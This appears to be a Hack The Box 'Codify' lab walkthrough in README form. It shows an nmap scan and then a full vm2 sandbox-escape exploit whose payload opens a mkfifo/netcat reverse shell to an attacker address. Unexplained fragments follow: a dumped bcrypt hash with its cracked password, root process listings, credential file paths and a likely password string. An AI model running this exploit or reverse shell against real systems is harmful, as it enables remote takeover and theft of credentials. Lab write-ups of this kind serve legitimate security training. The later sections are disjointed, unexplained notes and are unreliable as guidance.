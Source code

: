 # #1 Introduction
<img width="686" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/75af5d98-c467-479c-a632-19acc53fda6a">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx codify.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- codify.htb
```

we got these open ports
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)

There is a nodeJS framework running\
The platform allow to execute nodeJS code with the vm : vm2 https://github.com/patriksimek/vm2/releases/tag/3.9.16

it seems that vm2 has some criticals issues like remote code execution\


async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.146 6666 >/tmp/f'); }
            )
        }
    }
};
p.then();



sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

joshua:spongebob1


root        1537  0.0  0.0   2888   960 ?        Ss   23:09   0:00 /bin/sh /root/scripts/other/docker-startup.sh
root        1538  0.7  0.8 190444 33976 ?        Sl   23:09   0:01  _ /usr/bin/python3 /usr/bin/docker-compose -f /root/scripts/docker/docker-compose.yml up
root        1644  0.0  0.3 722280 12528 ?        Sl   23:09   0:00 /usr/bin/containerd-shim-runc-v2 -namespace moby -id f88b314ed6a4f84693267bda194d6266bdde5798ef5ccd082109b2566fda07f8 -address /run/containerd/containerd.sock


/usr/lib/python3/dist-packages/docker/credentials 
/srv/.pm2/pm2.log


kljh12k3jhaskjh12kjh3
